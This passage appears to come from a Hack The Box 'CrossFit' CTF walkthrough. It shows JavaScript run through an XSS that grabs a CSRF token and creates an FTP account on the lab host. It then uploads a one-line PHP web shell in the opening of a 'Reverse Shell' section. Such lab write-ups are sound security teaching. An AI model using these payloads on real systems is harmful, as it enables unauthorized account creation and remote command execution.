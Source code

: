 ```js

// Function to make the things happen
function createAccount(){
        // Get the Token
        var req_token = new XMLHttpRequest();
        // Request both from get token and create user must be in the same session
        req_token.onreadystatechange = function(){
                if (req_token.readyState == XMLHttpRequest.DONE) {
                        var token = getToken(req_token.responseText);
                        debug(token);
                        // Create the account in the same "session"
                        var req_create = new XMLHttpRequest();
                        var url_create = 'http://ftp.crossfit.htb/accounts';
                        req_create.open("POST", url_create, false);
                        req_create.withCredentials = true;
                        req_create.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                        var values = "username=0x4rt3mis&pass=0x4rt3mis0x4rt3mis&_token=" + token;
                        req_create.send(values);
                        debug(btoa(req_create.response));
                }
        }
        // After parse everything, just trigger it
        var url = 'http://ftp.crossfit.htb/accounts/create';
        req_token.open('GET', url, false);
        req_token.withCredentials = true;
        req_token.send();
}

// Trriger the account creation
createAccount()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:13:49.png)

We open the html response in the browser. And it's really created!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:16:10.png)

And now, we log on the ftp

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:18:56.png)

# Reverse Shell

Seems that we are on the webroot of the ftp. We cannot reach it from the browser, but we can do that from the XSS we got earlier.

We upload a simple cmd php.

```php
<?php system($_REQUEST['cmd']); ?>
```
